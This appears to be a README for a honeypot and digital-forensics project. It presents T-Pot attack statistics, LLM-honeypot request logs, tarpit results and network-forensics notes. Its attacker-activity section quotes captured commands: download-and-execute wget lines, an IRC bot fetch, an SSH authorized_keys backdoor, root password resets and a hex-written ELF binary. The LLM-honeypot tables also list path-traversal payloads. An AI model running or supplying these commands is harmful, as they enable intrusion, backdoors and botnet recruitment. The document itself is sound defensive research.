




# Project: HoneyNet and DFIR

## Project Overview

This project encompasses the strategic deployment of honeypots to capture malware files and monitor hacker activities. The data collected from these honeypots undergo thorough analysis within the Digital Forensic Lab, operating within the framework of Digital Forensics and Incident Response (DFIR). Furthermore, the Digital Forensic Lab examines hacking patterns generated within the Penetration Testing Lab in the [Pentest project](https://github.com/alanshlam/Pentest), enabling comprehensive studies and investigations.

Furthermore, the Digital Forensic Lab serves as a hub for studying and understanding hacking patterns that are generated within the Penetration Testing Lab and collected from Honeypots. These hacking patterns serve as valuable resources for our forensic analysts, enabling them to gain a deeper understanding of the evolving tactics employed by malicious actors. By closely examining these patterns, we can identify recurring trends, emerging attack vectors, and potential vulnerabilities that require immediate attention.

The synergy between the Penetration Testing Lab and the Digital Forensic Lab is instrumental in enhancing our overall cybersecurity posture. The insights gained from the analysis of honeypot data and hacking patterns enable us to refine our penetration testing methodologies, develop targeted countermeasures, and improve incident response capabilities. This iterative process ensures that our defensive strategies are continuously evolving to keep pace with the ever-changing threat landscape.

## Findings and Studies

### Global Cyberattack Patterns: Insights from T-Pot Honeypot and VirusTotal Analysis Across HK, UK, USA, and AUS Regions
T-Pot is a comprehensive honeypot platform that integrates multiple honeypot technologies to detect, monitor, and analyze malicious network activity. It is designed to act as a decoy, attracting attackers, bots, and scanners to gather intelligence on their tactics while protecting real network assets. By simulating vulnerable services, T-Pot lures malicious actors into interacting with it, wasting their resources and providing valuable data for cybersecurity analysis.

#### How T-Pot Defends Networks
| **Defense Mechanism** | **Explanation** |
|-----------------------|-----------------|
| **Deception**         | Mimics vulnerable services to lure attackers away from real assets |
| **Tarpitting**        | Wastes attacker resources (e.g., time, bandwidth) with endless data streams |
| **Threat Intelligence**| Logs IPs, patterns, credentials for analysis via web console (e.g., Kibana, Suricata) |
| **Early Warning**     | Detects attacks early, enabling proactive measures like IP blocking or firewall updates |
| **Integration**       | Combines with tools like Suricata and Kibana for enhanced analytics and visualization |
| **Low Risk**          | Low-interaction honeypots minimize risk while providing actionable insights |

Four T-Pot Honypots are deployed accross HK, UK, USA, and AUS Regions. This study analyzes data from TPOT honeypots and VirusTotal scans of Cowrie honeypot download files across Hong Kong (HK), United Kingdom (UK), United States (USA), and Australia (AUS) to uncover global cyberattack patterns targeting network infrastructure. By examining usernames, passwords, attack sources, operating systems, ports, vulnerabilities (CVEs), and downloaded files, the study reveals a coordinated threat landscape dominated by botnet-driven brute-force attacks, IoT exploitation, and malware deployment. The findings highlight common attack vectors, regional variations, and emerging trends, providing actionable insights and recommendations to enhance network security against evolving cyber threats.

You can view the full report and raw data of this study at https://github.com/alanshlam/HoneyNet/tree/main/4r_report

#### Executive Summary 

This executive summary encapsulates the key findings from the TPOT honeypot data and VirusTotal analysis of Cowrie download files across Hong Kong (HK), United Kingdom (UK), United States (USA), and Australia (AUS) regions. The data reveals a global cyberattack landscape targeting weak credentials, legacy systems, and IoT devices, with coordinated botnet activity (e.g., "mirai", "multiverze") exploiting ports like 22 (SSH) and 5060 (SIP). The United States and Romania are primary attack sources, with vulnerabilities ranging from legacy (e.g., CVE-2006-2369) to modern (e.g., CVE-2021-44228). Trend predictions indicate increased IoT botnet sophistication, advanced credential attacks, and new vulnerability exploitation. Recommendations focus on securing credentials, patching systems, and monitoring high-risk ports and IPs. The table below summarizes the key findings, trends, and recommendations for easy comprehension.


| **Category**            | **Key Findings**                                                                 | **Trend Predictions**                                                                 | **Recommendations**                                                                 |
|-------------------------|----------------------------------------------------------------------------------|--------------------------------------------------------------------------------------|------------------------------------------------------------------------------------|
| **Usernames**           | "root" (top: HK: 29,508; UK: 62,575; USA: 38,439; AUS: 25,720), "admin", "sa", "345gs5662d34" targeted, indicating botnet-driven brute-force attacks. | More sophisticated credential attacks using AI-driven brute-forcing or dynamic credentials. | Enforce complex passwords, disable default accounts (root, admin), monitor botnet credentials (e.g., 345gs5662d34). |
| **Passwords**           | "123456" (top: HK: 8,045; UK: 10,549; USA: 11,757; AUS: 4,851), "123", "345gs5662d34", "password" dominate; high "(empty)" in USA (1,829). | Increased use of coordinated, campaign-specific passwords in botnet attacks.           | Require strong passwords, implement MFA, flag "(empty)" attempts in IDS.            |
| **Attack Countries**    | USA (top: HK: 549,721; UK: 800,062; USA: 1,266,211; AUS: 755,017), Romania, China consistent; Romania focuses on port 5060. | Diversification of attack sources (e.g., South Africa, Brazil) due to cheap hosting.   | Monitor USA/Romania IPs, especially for port 5060 traffic.                |
| **OS Distribution**     | Linux 2.2.x-3.x (top: HK: 3,317,952; UK: 2,971,687; USA: 3,989,951; AUS: 2,819,156), Windows 7/8 targeted; UK hits Windows XP (326,500). | Continued targeting of legacy Linux/IoT systems; increased focus on modern OSes.       | Patch legacy Linux/Windows systems, secure IoT devices, disable Telnet.             |
| **Ports**               | Port 22 (SSH) and 5060 (SIP, e.g., Romania: HK: 398,894; AUS: 406,566) heavily targeted; port 23 (Telnet), 80 (HTTP) common. | Growing attacks on IoT-related ports (e.g., 23, 5060) and new service ports.           | Block/restrict ports 22, 23, 5060, 5900–5902, 15965; deploy IDS/IPS for detection.  |
| **CVEs**                | CVE-2006-2369 (VNC: UK: 170,143; USA: 281,315; AUS: 164,077), CVE-2002-0013 (SNMP), CVE-2021-44228 (Log4j in USA/AUS) exploited. | Rapid adoption of new CVEs (e.g., Log4j-like vulnerabilities) in attack campaigns.     | Patch legacy (e.g., CVE-2006-2369) and modern (e.g., CVE-2021-44228) vulnerabilities.|
| **Downloads analyzed by VirusTotal**    | 8 non-malicious ASCII files (6 with download scripts); 14 malicious files (trojans: mirai, multiverze; miners; downloaders); IoT/Linux focus. | Increased botnet (mirai, multiverze) and miner activity; obfuscated download scripts.  | Use antivirus for trojans/miners, monitor download attempts, analyze in sandboxes.   |
| **Key Insight**         | Global botnet campaigns exploit weak credentials, IoT/Linux systems, and legacy/modern vulnerabilities via SSH and VoIP ports. | Sophisticated botnets, AI-driven attacks, and new vulnerabilities will dominate.       | Harden systems, secure ports, monitor botnet IOCs, and train staff on IoT security.  |

#### Below screenshots show the data collected in the past 4 weeks:


***

### LLM-based Honeypots Deployment
LLM-based honeypots, such as T-Pot's Galah and Beelzebub, enhance honeypot deployment by leveraging advanced language models like gemma3 to intelligently analyze and respond to attacker interactions, thereby improving threat detection and data collection. The log data collected from this LLM-based honeypot by using gemma3 LLM powered by Tesla V100-PCIE-16GB and 6-core x86_64 CPU demonstrates their effectiveness, capturing a range of malicious activities, including attempts to access sensitive files like `/.env` and `/.git/config`, which expose API keys and database URLs, and reconnaissance efforts via commands like `uname`, `nproc`, and `nvidia-smi` to gather system and network details. By mimicking realistic server responses and dynamically interpreting attacker inputs, LLM-based honeypots provide richer insights into attack patterns, enabling better identification of vulnerabilities and more robust cybersecurity strategies.

Below is the top 10 requests and inputs from Galah and Beelzebub log. See the LLM responses of these requests and inputs at https://github.com/alanshlam/HoneyNet/blob/main/llm/llmtop.txt

#### Top 10 requests from Galah logs
| Request/Input | Possible Attack |
|---------------|-----------------|
| GET /.env | Information Disclosure: Exposes sensitive configuration details like API keys, database credentials, and session secrets, which could be used for unauthorized access or further attacks. |
| GET /favicon.ico | Reconnaissance: Typically benign, but unexpected HTML or large binary data could indicate probing for server misconfigurations or fingerprinting the server. |
| GET /?XDEBUG_SESSION_START=phpstorm | Debugging Exploitation: Attempts to initiate an Xdebug session, potentially exposing application internals or enabling remote debugging, which could lead to code execution or data leakage. |
| CONNECT www.google.com:443 | Proxy Tunneling: Attempts to use the server as a proxy to connect to external sites, potentially bypassing security controls or exploiting misconfigured servers. |
| POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh | Directory traversal attack (also known as path traversal) with the potential intent to execute arbitrary commands on the server. |
| GET /.git/config | Information Disclosure: Attempts to access Git configuration, potentially exposing repository URLs, branches, or other metadata useful for further attacks. |
| GET /robots.txt | Reconnaissance: Probes for restricted paths (e.g., /admin, /secret), which could guide attackers to sensitive areas of the application. |
| GET /version | Reconnaissance: Gathers server or application version information, which can be used to identify known vulnerabilities for exploitation. |
| **PRI *** | Protocol Abuse: Tests HTTP/2 PRI method, potentially probing for server misconfigurations or vulnerabilities in HTTP/2 implementations. |
| GET /_profiler/phpinfo | Information Disclosure: Exposes detailed PHP and server configuration, which could reveal vulnerabilities or sensitive settings for exploitation. |


#### Top 10 requests from Beelzebub logs
| Request/Input | Possible Attack |
|---------------|-----------------|
| uname -s -v -n -r -m | System Reconnaissance: Gathers OS and kernel details, useful for identifying vulnerabilities or tailoring exploits. |
| echo -e "\x6F\x6B" | Command Injection: Tests hex-encoded command execution, probing for vulnerabilities that allow arbitrary command execution. |
| nproc | System Reconnaissance: Queries CPU count, aiding in understanding system capacity for potential resource-based attacks. |
| uptime -p | System Reconnaissance: Collects system uptime and load, providing insight into system stability and usage for attack planning. |
| lspci \| grep VGA \| cut -f5- -d ' ' | Hardware Reconnaissance: Enumerates graphics hardware, potentially for GPU-specific exploits or system fingerprinting. |
| nvidia-smi -q \| grep "Product Name" \| head -n 1 \| awk '{print $4, $5, $6, $7, $8, $9, $10, $11}' | Hardware Reconnaissance: Queries GPU details, useful for identifying hardware for targeted exploits or cryptomining attacks. |
| lspci \| grep VGA -c | Hardware Reconnaissance: Counts VGA devices, aiding in system fingerprinting for potential hardware-specific attacks. |
| lspci \| grep "3D controller" \| cut -f5- -d ' ' | Hardware Reconnaissance: Enumerates 3D controllers, similar to VGA enumeration, for system profiling or exploit targeting. |
| nvidia-smi -q \| grep "Product Name" \| awk '{print $4, $5, $6, $7, $8, $9, $10, $11}' \| grep . -c | Hardware Reconnaissance: Counts GPU product names, part of system fingerprinting for targeted attacks. |
| ip r \| grep -Eo '[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}.[0-9]{1,3}/[0-9]{1,2}' | Network Reconnaissance: Extracts routing information, useful for mapping network topology or identifying attack vectors. |


#### Below screenshot shows the data collected in the past 4 weeks in LLM-based T-Pot:


#### Below screenshot shows the GPU and VRAM utilization in LLM-based T-Pot:


##### key observations from the GPU, VRAM, CPU utilization, and network traffic analysis for your LLM-based honeypots Beelzebub and Galah running on a Tesla V100-PCIE-16GB with a 6-core x86_64 CPU
| **Metric**            | **Observation**                                                                 | **Peak Values**         | **Correlation Notes**                                                                 |
|-----------------------|--------------------------------------------------------------------------------|------------------------|--------------------------------------------------------------------------------------|
| **CPU Utilization**   | Mostly low, with occasional spikes. Underutilized for most of the period.      | Up to 80-90%           | Weak correlation with GPU; CPU handles lighter tasks (e.g., preprocessing).          |
| **GPU Utilization**   | Bursty, with significant spikes to 100% during inference, followed by idle periods. | 100%  | Strong correlation with VRAM; GPU is the bottleneck during peaks.                   |
| **VRAM Utilization**  | Mirrors GPU usage, peaking at 60-70% (9.6-11.2GB of 16GB). Drops to 0% when idle. | 60-70% (9.6-11.2GB)    | Directly tied to GPU activity; memory management is efficient.                      |
| **Network Traffic**   | Minimal overall, with occasional spikes tied to GPU/CPU activity.              | Upload: ~192 KB/s | Spikes align with some GPU/CPU peaks ; likely for data/logs.   |

###### Key Takeaways
- **Workload Pattern**: Bursty, with GPU and VRAM peaking during inference tasks, while CPU remains underutilized.
- **Bottlenecks**: GPU hits 100% during peaks, indicating it’s the limiting factor; network and CPU are not constraints.
- **Optimization Potential**: Room to scale (VRAM not maxed, CPU underutilized); consider batching or additional tasks during idle periods.


***

### T-Pot Tarpit Deployment
A T-Pot Tarpit is deployed in the US region with an AMD EPYC 7763 16-core CPU and 64GB of RAM. The following illustrates its findings and performance.

T-Pot’s tarpit approach, through components like Ddospot, Heralding, Endlessh, Go-pot, and Hellpot, defends networks by deceiving attackers, exhausting their resources, and gathering actionable threat intelligence. By simulating vulnerable services, it diverts attacks from critical systems, logs malicious activity, and provides insights via its web console. This combination of deception, disruption, and analysis makes T-Pot a powerful tool for enhancing cybersecurity resilience

Below is a summarized table of the T-Pot Tarpit components (Ddospot, Heralding, Endlessh, Go-pot, and Hellpot) and how T-Pot defends networks in cybersecurity. The table captures the key aspects of each component and the overall defensive strategy.

| **Component** | **Description** | **Function** | **Role in Network Defense** |
|---------------|-----------------|----------------------------|-----------------------------|
| **Ddospot**   | Honeypot for UDP-based DDoS attacks | Emulates services like DNS, NTP, SSDP; logs attacker IPs, ports, and patterns | Detects and mitigates DDoS threats, diverts attacks, provides threat intelligence |
| **Heralding** | Credential-collecting honeypot | Mimics FTP, Telnet, SSH, HTTP, etc.; captures login attempts and credentials | Identifies brute-force attacks, logs credentials, informs authentication policy updates |
| **Endlessh**  | SSH tarpit | Delays SSH brute-force attacks with endless banners, logs connections | Slows attackers, wastes their resources, logs IPs for blacklisting |
| **Go-pot**    | Custom honeypot (likely Go-based) | Emulates specific services/protocols, logs interactions (details vary) | Monitors niche attack vectors, enhances flexibility in threat detection |
| **Hellpot**   | HTTP tarpit | Sends infinite data to HTTP bots/scanners, logs interactions | Disrupts bots, consumes attacker bandwidth, logs activity for analysis |

#### Below screenshot shows the data collected in the past 4 weeks in T-Pot Tarpit:


Below is a summarized table of the key findings from the T-Pot Tarpit data in a month.

| **Category**            | **Finding**                              | **Details**                                                                 |
|--------------------------|------------------------------------------|-----------------------------------------------------------------------------|
| **Total Attacks**        | 5 million                                | Dominated by Ddospot (5M), followed by Heralding (186K), Endlessh (31K), Hellpot (16K), Go-pot (3K). |
| **Attack Distribution**  | Ddospot leads                            | Ddospot accounts for the majority, indicating high UDP-based DDoS activity.  |
| **Temporal Trends**      | Mid-May spike                            | Attack volume peaked at 400K–500K, with rising unique source IPs, suggesting a new campaign. |
| **Destination Ports**    | Peaks at 53, 123, 22                     | Targets DNS/NTP (UDP) and SSH, with activity from late April to mid-May.    |
| **Honeypot Activity**    | Ddospot dominant                         | Steep rise in Ddospot attacks, moderate activity in Heralding and others.    |
| **Geographic Sources**   | United States, Türkiye lead              | High attack volumes from these countries, with clusters in Eastern Europe/Asia on the map. |
| **Other Countries**      | Bangladesh, Brazil, China                | Notable but lower activity compared to top sources.                        |
| **Map Insights**         | Global spread with hotspots              | Dense attack clusters in North America, Europe, Asia; red hub in Eastern Europe/Asia. |

##### Implications
- **Defense Focus**: Prioritize UDP DDoS mitigation, monitor U.S. and Türkiye IPs, and strengthen authentication.
- **Tarpit Effectiveness**: High engagement shows T-Pot’s success in attracting and logging threats.

#### Flow analysis
Below Top 10 flows ordered by bytes shows the T-Pot Tarpit [10.0.0.4] feeding data to various attacker hosts
| Date first seen | Duration | Proto | Src IP Addr:Port | to | Dst IP Addr:Port | Packets | Bytes | Flows |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
| 2025-05-24 14:36:53.545 | 00:15:47.332 | TCP | 10.0.0.4:80 | -> | [GB IP]:47328 | 2.1 M | 2.9 G | 2 |
| 2025-05-27 07:22:41.185 | 00:00:15.113 | TCP | 10.0.0.4:80 | -> | [BG IP]:44978 | 271225  | 309.2 M | 1 |
| 2025-05-27 06:02:56.937 | 00:00:10.518 | TCP | 10.0.0.4:80 | -> | [US IP]:46958 | 258886  | 286.7 M | 1 |
| 2025-05-27 04:42:42.193 | 00:00:10.253 | TCP | 10.0.0.4:80 | -> | [KN IP]:38090 | 247981  | 272.6 M | 1 |
| 2025-05-24 14:53:25.160 | 00:00:10.262 | TCP | 10.0.0.4:80 | -> | [KN IP]:58206 | 245402  | 271.8 M | 1 |
| 2025-05-27 06:24:30.499 | 00:00:10.176 | TCP | 10.0.0.4:80 | -> | [KN IP]:46306 | 241047  | 266.8 M | 1 |
| 2025-05-27 04:59:58.258 | 00:00:10.374 | TCP | 10.0.0.4:80 | -> | [US IP]:41222 | 235720  | 264.1 M | 1 |
| 2025-05-27 07:24:41.196 | 00:00:10.298 | TCP | 10.0.0.4:80 | -> | [US IP]:41144 | 231818  | 259.3 M | 1 |
| 2025-05-27 05:25:37.287 | 00:00:10.359 | TCP | 10.0.0.4:80 | -> | [KN IP]:34562 | 223549  | 248.7 M | 1 |
| 2025-05-27 04:46:39.046 | 00:00:10.367 | TCP | 10.0.0.4:80 | -> | [NL IP]:55126 | 64090   | 95.8 M | 1 |

Below flows shows the T-Pot Tarpit [10.0.0.4] feeding 2.9G data to 78.153.xxx.xxx host within 16 minutes
| Date first seen | Duration | Proto | Src IP Addr:Port | to | Dst IP Addr:Port | Packets | Bytes | Flows |
| --- | --- | --- | --- | --- | --- | --- | --- | --- |
|2025-05-24 14:36:53.545 |   00:15:47.332 | TCP |     78.153.xxx.xxx:47328 | ->  |       10.0.0.4:80   |   272779 |  15.6 M |  2 |
|2025-05-24 14:36:53.545 |   00:15:47.332 | TCP |          10.0.0.4:80     | ->  |  78.153.xxx.xxx:47328 |   2.1 M |   2.9 G|  2 |

Below is a sample of http data T-Pot Tarpit feeding to an attacker 

                HTTP/1.1 200 OK
                Server: nginx
                Date: Tue, 27 May 2025 12:05:16 GMT
                Content-Type: text/plain; charset=utf-8
                Transfer-Encoding: chunked
                Connection: close
                
                1000
                <html>
                <body>
                <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN"
                    "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
                <html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
                <head>
                <meta http-equiv="Content-Type" content="text/html;charset=utf-8" />
                <meta http-equiv="Content-Style-Type" content="text/css" />
                <title>
                The
                Project
                Gutenberg
                Literary
                Archive
                Foundation,
                the
                trademark
                license,
                especially
                commercial
                redistribution.
                START:
                FULL
                LICENSE
                THE
                FULL
                PROJECT
                GUTENBERG
                LICENSE
                PLEASE
                READ
                THIS
                BEFORE
                YOU
                DISTRIBUTE
                OR
                USE
                THIS
                WORK
                To
                protect
                the
                PROJECT
                GUTENBERG-tm
                concept
                and
                trademark.
                Project
                Gutenberg
                volunteers
                and
                donations
                to
                the
                testimony
                of
                the
                visible
                symbolisation
                of
                Dionysian
                reality
                are
                separated
                from
                the
                operation
                of
                a
                form
                of
                existence,
                the
                Hellenic
                genius,
                and


#### Below screenshot shows the ulitization of CPU/RAM and network traffic in the past 4 days in T-Pot Tarpit:


##### Findings and Observations 

| **Category**            | **Finding/Observation**                  | **Details**                                                                 |
|--------------------------|------------------------------------------|-----------------------------------------------------------------------------|
| **Memory Usage (mem.Memory Used - Blue Line)** | Peaks at 60–70%, drops intermittently | The memory usage escalates from ~20% on May 21 to frequent 60–70% peaks, utilizing ~45GB of the 64GB RAM. This aligns with T-Pot’s handling of 5M attacks, likely driven by Ddospot (UDP DDoS) and Elasticsearch/Kibana log processing. The drops suggesting a recurring event (e.g., T-Pot Daily Reboot ,container restart, log rotation) that frees memory.|
| **CPU Usage**            | Low, with sporadic spikes               | cpu.User (green) and cpu.System (yellow) remain <10%, with occasional peaks to 10–15%, well within 16-core capacity. CPU usage remains low (<15% peak), leveraging the 16-core capacity efficiently. This indicates the AMD EPYC 7763 handles the computational load (e.g., tarpit responses, log aggregation) without significant strain.  |
| **Network Traffic**      | High spikes up to 48 MiB/s              | net.Upload (green) and net.Download (yellow) show bursts, peaking at 48 MiB/s on May 24, correlating with memory spikes. Traffic spikes to 48 MiB/s, particularly on May 24, reflect intense engagement with attackers (e.g., Hellpot’s infinite streams, Ddospot’s UDP responses). The pattern correlates with memory peaks, suggesting high attack volumes or data logging activity |
| **Temporal Patterns**    | Spikes align with traffic bursts        | Notable peaks on May 22 (~12:00), May 24 (~12:00–24:00), and May 25 (~00:00), suggesting attack surges or log processing. Memory and traffic spikes align (e.g., May 24 ~12:00–24:00), indicating that attack surges or log processing (e.g., Elasticsearch indexing) drive resource usage. The drops may follow automated maintenance or manual intervention |
| **Memory Drops**         | Occur after peaks (e.g., May 23, May 25) | Drops to 20–30% follow high usage periods, similar to the 08:00 drop in the previous image, indicating possible resets or cleanups.<br>- **Container Restarts**: A scheduled Docker restart (e.g., via `docker-compose`) could clear memory, as seen at 08:00 in the prior image and ~00:00 on May 25. <br>- **Log Rotation**: Elasticsearch or T-Pot’s logging system might rotate logs, reducing memory usage after peaks. <br>- **OOM Killer**: Unlikely with 64GB RAM, but possible if a container exceeds memory limits, triggering a kill event. <br>- **Manual Intervention**: A system admin might have restarted services or cleared memory manually.|
| **T-Pot Performance**    | Handles load effectively                | 5M attacks (from prior data) supported by stable CPU and high network activity, with memory as the limiting factor. |
| **Potential Concerns**   | Memory strain and drops                 | Peaks at 70% (~45GB of 64GB) and sudden drops suggest resource-intensive processes or manual/system interventions. |

###### Implications
- **Effectiveness**: T-Pot effectively attracts and engages attackers (48 MiB/s traffic), supported by stable CPU usage, but memory is the bottleneck during peaks.
- **Stability**: The recurring memory drops suggest a managed process, but frequent high usage (70%) risks performance if attacks intensify beyond 5M/month.

***

### T-Pot Honeypot Deployment
Two T-Pot honeypots on a cloud platform in USA region have been deployed for years to collect malware files and monitor hacker activities. The following screenshot provides an overview of the [top 10 attacks](./data/Honeypot%20Attacks%20-%20Top%2010.csv), [attack map](./screenshot/Attack_Map_Dynamic.jpg), [attackers' source IP](./data/Attacker%20Source%20IP%20-%20Top%2010.csv), [Attacks by Country and Port](./data/Attacks%20by%20Country%20and%20Port.csv),  [attackers' OS distribution](./data/P0f%20OS%20Distribution.csv), [attackers by country](./data/Attacks%20by%20Country.csv), [username](./data/Username%20Tagcloud.csv) and [password](./data/Password%20Tagcloud.csv) tag cloud, [attackers' autonomous systems (AS)](./data/Attacker%20AS_N%20-%20Top%2010.csv), [detected Common Vulnerabilities and Exposures (CVE)](./data/Suricata%20CVE%20-%20Top%2010.csv), and [Suricata IDS alerts](./data/Suricata%20Alert%20Signature%20-%20Top%2010.csv) over the past 4 week in June, 2024.

The statistical data from T-Pot Honeypots is also available in CSV format in the [data_folder](./data/).

<div align="left">
    
</div>

### T-Pot Honeypot Usage

The video below shows how to use the T-Pot honeypot to collect malware files and monitor hacker activities.

[](https://www.youtube.com/watch?v=T2XmKk22Rlo)

(https://www.youtube.com/watch?v=T2XmKk22Rlo)

### T-Pot Attack Map

The videos below shows the T-Pot Attack Map in two minutes. 


The video below demonstrates that an attacker from Brazil continuously attacked the honeypot's SMB.

(https://www.youtube.com/watch?v=y5aF4Ea5r6Q)

The video below demonstrates that an attacker from Vietnam continuously attacked the honeypot's SMB.

(https://www.youtube.com/watch?v=ff_2JJN1Pt8)


### Hacker Activities and Keystroke Analysis

A total of 6,420 hacker keystroke sessions have been recorded following their break-ins, encompassing 133,694 lines of keystrokes. The common activities performed by hackers after breaking into systems include:

- **Probing Victim Host Information:** Gathering details such as IP address, OS version, installed software, CPU, memory, and disk size. E.G.
    ```bash
    df -h | head -n 2 | awk 'FNR == 2 {print $2;}'lscpu | grep Modelwhoamiuname -aunametopcat /proc/cpuinfo | grep model | grep name | wc -luname -mwcrontab -lls -lh $(which ls)free -m | grep Mem | awk '{print $2 ,$3, $4, $5, $6, $7}'cat /proc/cpuinfo | grep name | head -n 1
    lscpu | grep "CPU(s):
    cat /proc/mounts
    ```
- **Check enabled built-ins:**  check enabled built-ins commands on the victim host. E.G.
    ```bash
    root@ubuntu:~# enable
    enable .
    enable :
    enable [
    enable alias
    enable bg
    enable bind
    enable break
    enable builtin
    enable caller
    enable cd
    enable command
    enable compgen
    enable complete
    
    ```

- **Modifying Credentials:** Changing the root password or creating other root accounts. E.G.
    ```bash
    echo "root:ZYOYI3d9rSGq"|chpasswd|bash
    echo -e "new_password\nnew_password"|passwd|bash
    ```
- **Downloading Files:** Using tools like `wget`, `ftp`, or `curl` to download files and attempting to execute them. E.G.
    ```bash
    wget http://[IP]:25770/.i; chmod 777 .i; ./.i
    ```
- **Creating Binary Files:** Using echo hex code to create binary files and attempting to execute them. E.G.
    ```bash
    echo -ne "\x7f\x45\x4c\x46\x01\x02\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02\x00\x08\x00\x00\x00\x01\x00\x40\x00\xb0\x00\x00\x00\x34\x00\x00\x01\x64\x00\x00\x10\x06\x00\x34\x00\x20\x00\x02\x00\x28\x00\x03\x00\x02\x70\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" >> .s
    ```
- **Installing Trojan Programs:** Installing trojan horse programs.
- **Establishing Backdoors:** Appending public keys to the `authorized_keys` file for SSH access. E.G.
    ```bash
    cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~echo "123456\nO9O7RwyNaHwh\nO9O7RwyNaHwh\n"|passwd echo "root:8ufW8KmuglZC"|chpasswd|bash
    ```
- **Setting Up Proxy Servers:** Configuring IRC proxies, botnet command and control channels. E.G.
    ```bash
    cd /tmp ; wget [ip]/irc.pl ; perl irc.pl ; rm -rf irc.pl ; curl -O [ip]/irc.pl ; perl irc.pl ; rm -rf irc.pl ; history -cls /homecommand -v curl
    ```
- **Running DDoS Attacks:** Conducting Distributed Denial of Service (DDoS) attacks.
- **Mining Cryptocurrency:** Running cryptocurrency mining operations.

### Downloaded Files Analysis

We have archived more than 210 unique files downloaded by hackers. Below is the distribution of these file types:

| File Type                 | Percentage |
|---------------------------|------------|
| Executable Binary         | 46%        |
| ASCII Text                | 22%        |
| Data                      | 17%        |
| Shell Script              | 7%         |
| Gzip Compressed Data      | 7%         |
| OpenSSH RSA Public Key    | 1%         |

<div align="left">

</div>

You can view the hash and file type of these downloaded files at [data/dl_file_hash.csv](./data/dl_file_hash.csv).

Most of these files, except for some recent downloads or short shell scripts, can be identified by various antivirus agents on VirusTotal. These files are primarily classified as Trojan horses, Backdoor, DDoS tools, and CoinMiners. You can view the analysis results of the downloaded files from VirusTotal queries in the [data/VirusTotal_Analysis.md](./data/VirusTotal_Analysis.md) file. 

Below screenshot shows the Virustotal hash search of a download file 
<div align="left">
    
</div>


Some download scripts performed below activities
-	Checked if it can run as root user. 
-	Modified `/etc/sudoers` file with the entry `daemon ALL=(ALL) NOPASSWD: ALL` to allows the `daemon` user to execute any command as any user without needing to provide a password 
-	Modified `/etc/rc.local` file to ensure its script runs on system startup
-	Killed various processes (`bins.sh`, `minerd`, `node`, etc.) that are commonly associated with cryptocurrency mining and other malicious activities.
-	Added a malicious entry to `/etc/hosts`.
-	Deleted `.bashrc` files for root and the `pi` user.
-	Changed the password for a user.
-	Modified `.ssh/authorized_keys` to set up SSH keys for root access.
-	Modified DNS settings to use Google's DNS server.
-	Deleted various temporary files and directories
-	Setup IRC Bot
-	Preformed Network Scanning and Propagation, including updating the package list and installs `zmap` and `sshpass`, Scanning for open SSH ports, and attempting to copy itself to other systems using default passwords, and executing itself on the remote systems.


## Network Forensics

In the Penetration Testing Lab, various hacking techniques have been studied, and their corresponding attack network packets have been recorded in PCAP files. Below, we provide an analysis of some of these attack network packets using Wireshark and tcpdump tools.

### Attack Network Packet Analysis

#### 1. DDoS Attack  ([ddos.pcap](./pcap/ddos.pcap))

This pcap file contains 5000 ICMP Smurf DDoS attack network packets directed at a victim. The attacker launched over 30 source-spoofed IP ICMP packets to the victim in one millisecond.

 
 
#### 2. DNS Hijack Attack  ([dns_hijack.pcap](./pcap/dns_hijack.pcap))

This pcap file captures DNS hijack attack network packets. The analysis shows that fake DNS reply packets from the attacker always reach the victim host earlier than the authentic DNS reply packets from the genuine DNS server. These fake DNS reply packets redirect the victim to a phishing website. The attacker also launched a DoS attack on the genuine DNS server to slow down its reply packets to the victim host.

 
 
#### 3. Man-in-the-Middle Attack  ([mitm.pcap](./pcap/mitm.pcap))

This pcap file records network packets of HTTPS interception by a MITM attack via ARP poisoning. Normally, HTTPS network packets are encrypted by a session key between the client and web server. An attacker cannot decrypt the HTTPS traffic without the session key. However, if the attacker can redirect the victim's HTTPS traffic to their managed host (e.g., by DNS hijack or ARP poisoning in a LAN), they can supply their own session key to the victim host, decrypt the HTTPS traffic, and relay the HTTPS traffic between the victim host and the genuine web server.


The video below demostrate how an attacker can sniff victim account passwords by intercepting HTTPS traffic in a MITM attack:
(https://www.youtube.com/watch?v=E_E2cYAhyiU)


#### 4. SMB Break-in ([smb.pcap](./pcap/smb.pcap))

This pcap file captures Server Message Block (SMB) network packets post-break-in. These packets record the attacker's commands after the break-in. By examining these network packets, we can reconstruct the attacker's activities.


#### You can download the above pcap files at [here](./pcap/)

#### The video below demonstrate how we use Wireshark and tcpdump tools to analyze the above-recorded network packets:
(https://www.youtube.com/watch?v=mpGF8-iyuhw)


## Future Work
- **AI Integration:** Utilize AI technologies to automate the analysis and categorization of data gathered from honeypots during the initial stages of Digital Forensics and Incident Response (DFIR) investigations. This integration will streamline the process and enable efficient examination of the collected data, aiding in the identification of potential threats and patterns.
- **Knowledge Base Development:** Establish a comprehensive knowledge base for this project by leveraging large language models (LLMs). Collaborate on the [LLM knowledge base project](https://github.com/alanshlam/LLM) to accumulate and consolidate valuable expertise. This collaborative effort will ensure the knowledge base remains up-to-date and serves as a valuable resource for the team.
